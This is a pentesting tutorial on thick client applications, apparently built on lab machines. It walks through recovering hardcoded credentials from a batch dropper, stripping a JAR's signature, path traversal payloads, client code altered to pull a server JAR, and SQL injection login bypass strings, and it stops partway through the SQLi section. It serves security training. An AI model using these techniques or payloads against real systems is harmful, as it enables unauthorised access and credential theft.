# Attacking Thick Client Applications

## Introduction

Thick client applications are the applications that are installed locally on your computer. Unlike thin client applications that run on a remote server and can be be accessed through the web browser, these applications do not require internet access to run, and they perform better in processing power, memory, and storage capacity. Thick client applications are usually applications used in enterprise management systems, customer relationship management systems, inventory management tools, and other productivity software.

A critical security measure that, for example, Java has is a technology called sandbox. The sandbox is a virtual environment that allows untrusted code, such as code downloaded from the internet, to run safely on a user's system without posing a security risk. In addition, it isolates untrusted code, preventing it from accessing or modifying system resources and other applications without proper authorization. Besides that, there are also Java API restrictions and Code Signing that helps to create a more secure environment.

In a .NET environment, a thick client, also known as a rich client or fat client, refers to an application that performs a significant amount of processing on the client side rather than relying solely on the server for all processing tasks. As a result, thick clients can provide a better performance, more features, and improved user experiences compared to their thin client counterparts, which rely heavily on the server for processing and data storage.

Some examples of thick client applications are web browsers, media players, chatting software, and video games. Some thick client applications are usually available to purchase or download for free through their official website or third-party application stores, while other custom applications that have been created for a specific company, can be delivered directly from the IT department that has developed the software. Deploying and maintaining thick clients applications can be more difficult than thin client applications since patches and updates must be done locally to the user's computer. Some characteristics of thick client applications are:

- independent software
- working without internet access
- storing data locally
- less secure
- consuming more resources
- more expensive

Thick client applications can be categorized into two-tier and three-tier architecture. In two-tier architecture, the application is installed locally on the computer and communicates directly with the database. In the three-tier architecture, applications are also installed locally on the computer, but in order to interact with the databases, they first communicate with an application server, usually using the HTTP/HTTPS protocol. In this case, the application server and the database might be located on the same network or over the internet. This is something that makes three-tier architecture more secure since attackers won't be able to communicate directly with the database.

Since a large portion of thick client applications are downloaded from the internet, there is no sufficient way to ensure that users will download the official application, and that raises security concerns. Web-specific vulns like XSS, CSRF, and Clickjacking, do not apply to thick client applications. However, thick client applications are considered less secure than web applications with many attacks being applicable, including:

- improper error handling
- hardcoded sensitive data
- DLL hijacking
- buffer overflow
- SQLi
- insecure storage
- session management

## Pentesting Steps

### Information Gathering

Pentesters have to identify the application architecture, the programming languages and frameworks that have been used, and understand how the application and the infrastructure work. They should also need to identify technologies that are used on the client and server sides and find entry points and user inputs. Testers should also look for identifying common vulns.

### Client Side Attacks

Although thick clients perform significant processing and data storage on the client side, they still communicate with servers for various tasks, such as data synchronization or accessing shared resources. This interaction with servers and other external systems can expose thick clients to vulns similar to those found in web applications, including command injection, weak access control, and SQLi.

Sensitive information like usernames and passwords, tokens, or strings for communication with other services, might be stored in the application's local files. Hardcoded creds and other sensitive information can also be found in the application's source code, thus Static Analysis is a necessary step while testing the application. Using the proper tools, you can reverse-engineer and examine .NET and Java applications including EXE, DLL, JAR, CLASS, WAR, and other file formats. Dynamic analysis should also be performed in this step, as thick client applications store sensitive information in the memory as well.

### Network Side Attacks

If the application is communicating with a local or remote server, network traffic analysis will help you capture sensitive information that might be transferred through HTTP/HTTPS or TCP/UDP connection, and give you a better understanding on how that application is working. Pentesters that are performing traffic analysis on thick client applications should be familiar with tools like: Wireshark, tcpdump, TCPView, Burp Suite.

### Server Side Attacks

Server-side attacks in thick client applications are similar to web application attacks, and pentesters should pay attention to the most common ones including most of the OWASP Top Ten.

## Attacking Thick Client Applications

### Retrieving Hardcoded Creds from Thick Client Applications

Exploring the NETLOGON share of the SMB service reveals RestartOracle-Service.exe among other files. Downloading the executable locally and running it through the command line, it seems like it does not run or it runs something hidden.

```
C:\Apps>.\Restart-OracleService.exe
C:\Apps>
```

Downloading the tool ProcMon64 from SysInternals and monitoring the process reveals that the executable indeed creates a temp file in ```C:\Users\Matt\AppData\Local\Temp```.



In order to capture the files, it is required to change the permission of the Temp folder to disallow file deletions. To do this, you right-click the folder ```C:\Users\Matt\AppData\Local\Temp``` and under Properties -> Security -> Advanced -> cybervaca -> Disable inheritance -> Convert inherited permissions into explicit permissions on this object -> Edit -> Show advanced permissions, you deselect the ```Delete subfolders and files```, and ```Delete``` checkboxes.

Finally, you click OK -> Apply -> OK -> OK on the open windows. Once the folder permissions have been applied you simply run again the RestartOracle.exe and check the temp folder. The file 6F39.bat is created under the ```C:\Users\cybervaca\AppData\Local\Temp\2```. The names of the generated files are random every time the service is running.

```
C:\Apps>dir C:\Users\cybervaca\AppData\Local\Temp\2

...SNIP...
04/03/2023  02:09 PM         1,730,212 6F39.bat
04/03/2023  02:09 PM                 0 6F39.tmp
```

Listing the content of the 6F38 batch file reveals the following:

```
@shift /0
@echo off

if %username% == matt goto correcto
if %username% == frankytech goto correcto
if %username% == ev4si0n goto correcto
goto error

:correcto
echo TVqQAAMAAAAEAAAA//8AALgAAAAAAAAAQAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA > c:\programdata\oracle.txt
echo AAAAAAAAAAgAAAAA4fug4AtAnNIbgBTM0hVGhpcyBwcm9ncmFtIGNhbm5vdCBiZSBydW4g >> c:\programdata\oracle.txt
<SNIP>
echo AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA >> c:\programdata\oracle.txt

echo $salida = $null; $fichero = (Get-Content C:\ProgramData\oracle.txt) ; foreach ($linea in $fichero) {$salida += $linea }; $salida = $salida.Replace(" ",""); [System.IO.File]::WriteAllBytes("c:\programdata\restart-service.exe", [System.Convert]::FromBase64String($salida)) > c:\programdata\monta.ps1
powershell.exe -exec bypass -file c:\programdata\monta.ps1
del c:\programdata\monta.ps1
del c:\programdata\oracle.txt
c:\programdata\restart-service.exe
del c:\programdata\restart-service.exe
```

Inspecting the content of the file reveals that two files are being dropped by the batch file and being deleted before anyone can get access to the leftovers. You can try to retrieve the content of the 2 files, by modifying the batch script and removing the deletion.

```
@shift /0
@echo off

echo TVqQAAMAAAAEAAAA//8AALgAAAAAAAAAQAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA > c:\programdata\oracle.txt
echo AAAAAAAAAAgAAAAA4fug4AtAnNIbgBTM0hVGhpcyBwcm9ncmFtIGNhbm5vdCBiZSBydW4g >> c:\programdata\oracle.txt
<SNIP>
echo AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA >> c:\programdata\oracle.txt

echo $salida = $null; $fichero = (Get-Content C:\ProgramData\oracle.txt) ; foreach ($linea in $fichero) {$salida += $linea }; $salida = $salida.Replace(" ",""); [System.IO.File]::WriteAllBytes("c:\programdata\restart-service.exe", [System.Convert]::FromBase64String($salida)) > c:\programdata\monta.ps1
```

After executing the batch script by double-clicking on it, you wait a few minutes to spot the oracle.txt file which contains another file full of base64 lines, and the script monta.ps1 which contains the following content, under the directory ```c:\programdata\```. Listing the content of the file reveals the following code:

```powershell
C:\>  cat C:\programdata\monta.ps1

$salida = $null; $fichero = (Get-Content C:\ProgramData\oracle.txt) ; foreach ($linea in $fichero) {$salida += $linea }; $salida = $salida.Replace(" ",""); [System.IO.File]::WriteAllBytes("c:\programdata\restart-service.exe", [System.Convert]::FromBase64String($salida))
```

This script simply reads the contents of the oracle.txt file and decodes it to the restart-service.exe executable. Running this script gives you a final executable that you can further analyze.

```powershell
C:\>  ls C:\programdata\

Mode                LastWriteTime         Length Name
<SNIP>
-a----        3/24/2023   1:01 PM            273 monta.ps1
-a----        3/24/2023   1:01 PM         601066 oracle.txt
-a----        3/24/2023   1:17 PM         432273 restart-service.exe
```

Now when executing restart-service.exe you are presented with the banner ```Restart Oracle``` created by HelpDesk back in 2010.

```powershell
C:\>  .\restart-service.exe

    ____            __             __     ____                  __
   / __ \___  _____/ /_____ ______/ /_   / __ \_________ ______/ /__
  / /_/ / _ \/ ___/ __/ __ `/ ___/ __/  / / / / ___/ __ `/ ___/ / _ \
 / _, _/  __(__  ) /_/ /_/ / /  / /_   / /_/ / /  / /_/ / /__/ /  __/
/_/ |_|\___/____/\__/\__,_/_/   \__/   \____/_/   \__,_/\___/_/\___/

                                                by @HelpDesk 2010


PS C:\ProgramData>
```

Inspecting the execution of the executable through ProcMon64 shows that it is querying multiple things in the registry and does not show anything solid to go by.


Start x64dgb, navigate to Options -> Preferences, and uncheck everything except ```Exit Breakpoint```.

By unchecking the other options, the debugging will start directly from the application's exit point, and you will avoid going through any dll files that are loaded before the app starts. Then, you can select file -> open and select the restart-service.exe to import it and start the debugging. Once imported, you right click inside the CPU view and Follow in Memory Map.



Checking the memory maps at this stage of the execution, of particular interest is the map with a size of ```0000000000003000``` with a type of ```MAP``` and protection set to ```-RW--```.


Memory-mapped files allow applications to access large files without having to read or write the entire file into memory at once. Instead, the file is mapped to a region of memory that the application can read and write as if it were a regular buffer in memory. This could be a place to potentially look for hardcoded creds.

If you double-click on it, you will see the magic bytes ```MZ``` in the ASCII column that indicates that the file is a DOS MZ executable.



Return to the Memory Map pane, then export the newly discovered mapped item from memory to a dump file by right-clicking on the address and selecting ```Dump Memory to File```. Running ```strings``` on the exported file reveals some interesting information.

```powershell
C:\> C:\TOOLS\Strings\strings64.exe .\restart-service_00000000001E0000.bin

<SNIP>
"#M
z\V
).NETFramework,Version=v4.0,Profile=Client
FrameworkDisplayName
.NET Framework 4 Client Profile
<SNIP>
```

Reading the output reveals that the dump contains a .NET executable. You can use ```De4Dot``` to reverse .NET executables back to the source code by dragging the restart-service_00000000001E0000.bin onto the de4dot executable.

```
de4dot v3.1.41592.3405

Detected Unknown Obfuscator (C:\Users\cybervaca\Desktop\restart-service_00000000001E0000.bin)
Cleaning C:\Users\cybervaca\Desktop\restart-service_00000000001E0000.bin
Renaming all obfuscated symbols
Saving C:\Users\cybervaca\Desktop\restart-service_00000000001E0000-cleaned.bin


Press any key to exit...
```

Now, you can read the source code of the exported application by dragging and dropping it onto the DnSpy executable.


With the source code disclosed, you can understand that this binary is a custom-made runas.exe with the sole purpose of restarting the Oracle service using hardcoded credentials.

## Exploiting Web Vulnerabilities in Thick-Client Applications

Thick-client applications with a three-tier architecture have a security advantage over those with a two-tier architecture since it prevents the end-user from communicating directly with the database server. However, three-tier applications can be susceptible to web-specific attacks like SQLi and Path traversal.

During pentesting, it is common for someone to encounter a thick client application that connects to a server to communicate with the database. The following scenario demonstrates a case where the tester has found the following files while enumerating an FTP server that provides anonymous user access.

- fatty-client.jar
- note.txt
- note2.txt
- note3.txt

Reading the content of all the text files reveals that:

- A server has been reconfigured to run on port 1337 instead of 8000.
- This might be a thick/thin client architecture where the client application still needs to be updated to use the new port.
- The client application relies on Java 8.
- The login creds for login in the client application are qtc:clarabibi.

Run the fatty-client.jar file by double-clicking on it. Once the app is started, you can log in using the said credentials.



This is not successful, and the message "Connection Error!" is displayed. This is probably because the port pointing to the server needs to be updated from 8000 to 1337. Capture and analyze the network traffic using Wireshark to confirm this. Once Wireshark is started, you click on "Login" once again.


The client attempts to connect to the ```server.fatty.htb``` subdomain. Start a command prompt as administrator and add the following entry to the hosts file.

```
C:\> echo 10.10.10.174    server.fatty.htb >> C:\Windows\System32\drivers\etc\hosts
```

Inspecting the traffic again reveals that the client is attempting to connect to port 8000.


The fatty-client.jar is a Java Archive file, and its content can be extracted by right-clicking on it and selecting "Extract files".

```powershell
C:\> ls fatty-client\

<SNIP>
Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----       10/30/2019  12:10 PM                htb
d-----       10/30/2019  12:10 PM                META-INF
d-----        4/26/2017  12:09 AM                org
------       10/30/2019  12:10 PM           1550 beans.xml
------       10/30/2019  12:10 PM           2230 exit.png
------       10/30/2019  12:10 PM           4317 fatty.p12
------       10/30/2019  12:10 PM            831 log4j.properties
------        4/26/2017  12:08 AM            299 module-info.class
------       10/30/2019  12:10 PM          41645 spring-beans-3.0.xsd
```

Run PowerShell as administrator, navigate to the extracted directory and use the ```Select-String``` command to search all the files for port 8000.

```powershell
C:\> ls fatty-client\ -recurse | Select-String "8000" | Select Path, LineNumber | Format-List

Path       : C:\Users\cybervaca\Desktop\fatty-client\beans.xml
LineNumber : 13
```

There's a match in beans.xml. This is a Spring configuration file containing metadata. Read its content.

```powershell
C:\> cat fatty-client\beans.xml

<SNIP>
<!-- Here we have an constructor based injection, where Spring injects required arguments inside the
         constructor function. -->
   <bean id="connectionContext" class = "htb.fatty.shared.connection.ConnectionContext">
      <constructor-arg index="0" value = "server.fatty.htb"/>
      <constructor-arg index="1" value = "8000"/>
   </bean>

<!-- The next to beans use setter injection. For this kind of injection one needs to define an default
constructor for the object (no arguments) and one needs to define setter methods for the properties. -->
   <bean id="trustedFatty" class = "htb.fatty.shared.connection.TrustedFatty">
      <property name = "keystorePath" value = "fatty.p12"/>
   </bean>

   <bean id="secretHolder" class = "htb.fatty.shared.connection.SecretHolder">
      <property name = "secret" value = "clarabibiclarabibiclarabibi"/>
   </bean>
<SNIP>
```

Edit the line ```<constructor-arg index="1" value = "8000"/>``` and set the port to 1337. Reading the content carefully, you also notice that the value of the secret is ```clarabibiclarabibiclarabibi```. Running the edited application will fail due to an SHA-256 digest mismatch. The JAR is signed, validating every file's SHA-256 hashes before running. These hashes are present in the file ```META-INF/MANIFEST.MF```.

```powershell
C:\> cat fatty-client\META-INF\MANIFEST.MF

Manifest-Version: 1.0
Archiver-Version: Plexus Archiver
Built-By: root
Sealed: True
Created-By: Apache Maven 3.3.9
Build-Jdk: 1.8.0_232
Main-Class: htb.fatty.client.run.Starter

Name: META-INF/maven/org.slf4j/slf4j-log4j12/pom.properties
SHA-256-Digest: miPHJ+Y50c4aqIcmsko7Z/hdj03XNhHx3C/pZbEp4Cw=

Name: org/springframework/jmx/export/metadata/ManagedOperationParamete
 r.class
SHA-256-Digest: h+JmFJqj0MnFbvd+LoFffOtcKcpbf/FD9h2AMOntcgw=
<SNIP>
```

Remove the hashes from the ```META-INF/MANIFEST.MF``` and delete the ```1.RSA``` and ```1.SF``` files from the ```META-INF``` dir. The modified ```MANIFEST.MF``` should end with a new line.

```Manifest-Version: 1.0
Archiver-Version: Plexus Archiver
Built-By: root
Sealed: True
Created-By: Apache Maven 3.3.9
Build-Jdk: 1.8.0_232
Main-Class: htb.fatty.client.run.Starter

```

You can update and run the fatty-client.jar file by issuing the following commands.

```powershell
C:\> cd .\fatty-client
C:\> jar -cmf .\META-INF\MANIFEST.MF ..\fatty-client-new.jar *
```

Then, you double-click on the fatty-client-new.jar file to start it and try logging in using the creds qtc:clarabibi.


This time you get the message "Login Successful!".

### Foothold

Clicking on "Profile" -> "Whoami" reveals that the user qtc is assigned with the user role.



Clicking on the "ServerStatus", you notice that you can't click on any options.



This implies that there might be another user with higher privileges that is allowed to use this feature. Clicking on the "FileBrowser" -> "Notes.txt" reveals the file security.txt. Clicking the "Open" option at the bottom of the window shows the following content.



This note informs you that a few critical issues in the application still need to be fixed. Navigating to the "FileBrowser" -> "Mail" option reveals the dave.txt file containing interesting information. You can read its content by clicking the "Open" option at the bottom of the window.


The message from dave says that all admin users are removed from the database. It also refers to a timeout implemented in the login procedure to mitigate time-based SQLi attacks.

### Path Traversal

Since you can read files, attempt a path traversal attack by giving the following payload in the field and clicking the "Open" button.

```
../../../../../../etc/passwd
```



The server filters out the ```/``` character from the input. Decompile the application using [JD-GUI](http://java-decompiler.github.io/), by dragging and dropping the fatty-client-new.jar onto the jd-gui.



Save the source code by pressing the "Save All Sources" option in jdgui. Decompress the fatty-client-new.jar.src.zip by right-clicking and selecting "Extract files". The file fatty-client-new.jar.src/htb/fatty/client/methods/Invoker.java handles the application features. Reading its contents reveals the following code.

```java
public String showFiles(String folder) throws MessageParseException, MessageBuildException, IOException {
    String methodName = (new Object() {
      
      }).getClass().getEnclosingMethod().getName();
    logger.logInfo("[+] Method '" + methodName + "' was called by user '" + this.user.getUsername() + "'.");
    if (AccessCheck.checkAccess(methodName, this.user))
      return "Error: Method '" + methodName + "' is not allowed for this user account"; 
    this.action = new ActionMessage(this.sessionID, "files");
    this.action.addArgument(folder);
    sendAndRecv();
    if (this.response.hasError())
      return "Error: Your action caused an error on the application server!"; 
    return this.response.getContentAsString();
  }
```

The showfiles function takes in one argument for the folder name and then sends the data to the server using the sendAndRecv() call. The file fatty-client-new.jar.src/htb/fatty/client/gui/ClientGuiTest.java sets the folder option. Read its contents.

```java
configs.addActionListener(new ActionListener() {
          public void actionPerformed(ActionEvent e) {
            String response = "";
            ClientGuiTest.this.currentFolder = "configs";
            try {
              response = ClientGuiTest.this.invoker.showFiles("configs");
            } catch (MessageBuildException|htb.fatty.shared.message.MessageParseException e1) {
              JOptionPane.showMessageDialog(controlPanel, "Failure during message building/parsing.", "Error", 0);
            } catch (IOException e2) {
              JOptionPane.showMessageDialog(controlPanel, "Unable to contact the server. If this problem remains, please close and reopen the client.", "Error", 0);
            } 
            textPane.setText(response);
          }
        });
```

You can replace the configs folder name with ".." as follows.

```java
ClientGuiTest.this.currentFolder = "..";
  try {
    response = ClientGuiTest.this.invoker.showFiles("..");
```

Next, compile the ClientGuiTest.Java file.

```powershell
C:\> javac -cp fatty-client-new.jar fatty-client-new.jar.src\htb\fatty\client\gui\ClientGuiTest.java
```

This generates several class files. Create a new folder and extract the contents of fatty-client-new.jar into it.

```powershell
C:\> mkdir raw
C:\> cp fatty-client-new.jar raw\fatty-client-new-2.jar
```

Navigate to the raw directory and decompress fatty-client-new-2.jar by right-clicking and selecting "Extract Here". Overwrite any existing htb/fatty/client/gui/*.class files with updated class files.

```powershell
C:\> mv -Force fatty-client-new.jar.src\htb\fatty\client\gui\*.class raw\htb\fatty\client\gui\
```

Finally, build the new JAR file.

```powershell
C:\> cd raw
C:\> jar -cmf META-INF\MANIFEST.MF traverse.jar .
```

Log in to the application and navigate to "FileBrowser" -> "Config" option.



This is successful. You can now see the content of the directory ```configs/../.```. The files fatty-server.jar and start.sh look interesting. Listing the content of the start.sh file reveals that fatty-server.jar is running inside an Alpine Docker container.



You can modify the open function in fatty-client-new.jar.src/htb/fatty/client/methods/Invoker.java to download the file fatty-server.jar as follows:

```java
import java.io.FileOutputStream;
<SNIP>
public String open(String foldername, String filename) throws MessageParseException, MessageBuildException, IOException {
    String methodName = (new Object() {}).getClass().getEnclosingMethod().getName();
    logger.logInfo("[+] Method '" + methodName + "' was called by user '" + this.user.getUsername() + "'.");
    if (AccessCheck.checkAccess(methodName, this.user)) {
        return "Error: Method '" + methodName + "' is not allowed for this user account";
    }
    this.action = new ActionMessage(this.sessionID, "open");
    this.action.addArgument(foldername);
    this.action.addArgument(filename);
    sendAndRecv();
    String desktopPath = System.getProperty("user.home") + "\\Desktop\\fatty-server.jar";
    FileOutputStream fos = new FileOutputStream(desktopPath);
    
    if (this.response.hasError()) {
        return "Error: Your action caused an error on the application server!";
    }
    
    byte[] content = this.response.getContent();
    fos.write(content);
    fos.close();
    
    return "Successfully saved the file to " + desktopPath;
}
<SNIP>
```

Rebuild the JAR file following the same steps and log in again to the application. Then, navigate to "FileBrowser" -> "Config", add the fatty-server.jar name in the input field, and click the "Open" button.



The fatty-server.jar file is successfully downloaded onto your desktop, and you can start the examination.

```powershell
C:\> ls C:\Users\cybervaca\Desktop\

...SNIP...
Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        3/25/2023  11:38 AM       10827452 fatty-server.jar
```

### SQLi

Decompiling the fatty-server.jar using JD-GUI reveals the file htb/fatty/server/database/FattyDbSession.class that contains a checkLogin() function that handles the login functionality. This function retrieves user details based on the provided username. It then compares the retrieved password with the provided password.

```java
public User checkLogin(User user) throws LoginException {
    <SNIP>
      rs = stmt.executeQuery("SELECT id,username,email,password,role FROM users WHERE username='" + user.getUsername() + "'");
      <SNIP>
        if (newUser.getPassword().equalsIgnoreCase(user.getPassword()))
          return newUser; 
        throw new LoginException("Wrong Password!");
      <SNIP>
           this.logger.logError("[-] Failure with SQL query: ==> SELECT id,username,email,password,role FROM users WHERE username='" + user.getUsername() + "' <==");
      this.logger.logError("[-] Exception was: '" + e.getMessage() + "'");
      return null;
```

Check how the client application sends credentials to the server. The login button creates the new object ClientGuiTest.this.user for the User class. It then calls the setUsername() and setPassword() functions with the respective username and password values. The values that are returned from these functions are then sent to the server.



Check the setUsername() and setPassword() functions from htb/fatty/shared/resources/user.java.

```java
public void setUsername(String username) {
    this.username = username;
  }
  
  public void setPassword(String password) {
    String hashString = this.username + password + "clarabibimakeseverythingsecure";
    MessageDigest digest = null;
    try {
      digest = MessageDigest.getInstance("SHA-256");
    } catch (NoSuchAlgorithmException e) {
      e.printStackTrace();
    } 
    byte[] hash = digest.digest(hashString.getBytes(StandardCharsets.UTF_8));
    this.password = DatatypeConverter.printHexBinary(hash);
  }
```

The username is accepted without modification, but the password is changed to the format below.

```java
sha256(username+password+"clarabibimakeseverythingsecure")
```

You also notice that the username isn't sanitized and is directly used in the SQL query, making it vulnerable to SQLi.

```java
rs = stmt.executeQuery("SELECT id,username,email,password,role FROM users WHERE username='" + user.getUsername() + "'");
```

The checkLogin function in htb/fatty/server/database/FattyDbSession.class writes the SQL exception to a log file.

```java
<SNIP>
    this.logger.logError("[-] Failure with SQL query: ==> SELECT id,username,email,password,role FROM users WHERE username='" + user.getUsername() + "' <==");
      this.logger.logError("[-] Exception was: '" + e.getMessage() + "'");
<SNIP>
```

Login into the application using the username ```qtc'``` to validate the SQLi vulnerability reveals a syntax error. To see the error, you need to edit the code in the fatty-client-new.jar.src/htb/fatty/client/gui/ClientGuiTest.java file as follows:

```java
ClientGuiTest.this.currentFolder = "../logs";
  try {
    response = ClientGuiTest.this.invoker.showFiles("../logs");
```

Listing the content of the error-log.txt file reveals the following message.



This confirms that the username field is vulnerable to SQLi. However, login attempts using payloads such as ```' or '1'='1``` in both fields fail. Assuming that the username in the login form is ```' or '1'='1```, the server will process the username as below.

```sql
SELECT id,username,email,password,role FROM users WHERE username='' or '1'='1'
```

The above query succeeds and returns the first record in the database. The server then creates a new user object with the obtained results.

```java
<SNIP>
if (rs.next()) {
        int id = rs.getInt("id");
        String username = rs.getString("username");
        String email = rs.getString("email");
        String password = rs.getString("password");
        String role = rs.getString("role");
        newUser = new User(id, username, password, email, Role.getRoleByName(role), false);
<SNIP>
```

It then compates the newly created user password with the user-supplied password.

```java
<SNIP>
if (newUser.getPassword().equalsIgnoreCase(user.getPassword()))
    return newUser;
throw new LoginException("Wrong Password!");
<SNIP>
```

Then, the following value is produced by newUser.getPassword() function.

```java
sha256("qtc"+"clarabibi"+"clarabibimakeseverythingsecure") = 5a67ea356b858a2318017f948ba505fd867ae151d6623ec32be86e9c688bf046
```

